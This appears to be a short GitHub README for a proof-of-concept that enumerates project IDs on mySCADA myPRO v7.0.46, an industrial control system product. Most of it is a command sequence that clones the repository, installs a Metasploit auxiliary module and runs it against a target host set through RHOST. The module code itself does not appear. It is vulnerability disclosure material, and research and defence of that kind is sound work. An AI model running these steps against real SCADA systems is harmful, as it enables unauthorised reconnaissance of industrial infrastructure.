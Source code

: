 # mySCADA myPRO 7 - projectID Disclosure

mySCADA myPRO v7.0.46 has another vulnerability to discover all projects in the system.
```
git clone https://github.com/EmreOvunc/mySCADA-myPRO-7-projectID-Disclosure.git
 
cd mySCADA-myPRO-7-projectID-Disclosure/

cp mypro_enum_projectid.rb /usr/share/metasploit-framework/modules/auxiliary/gather/

msfconsole

use auxiliary/gather/mypro_enum_projectid 

set RHOST [IP ADDRES]

run
```
![alt tag](https://emreovunc.com/images/mySCADA_myPRO7-projectID.png)
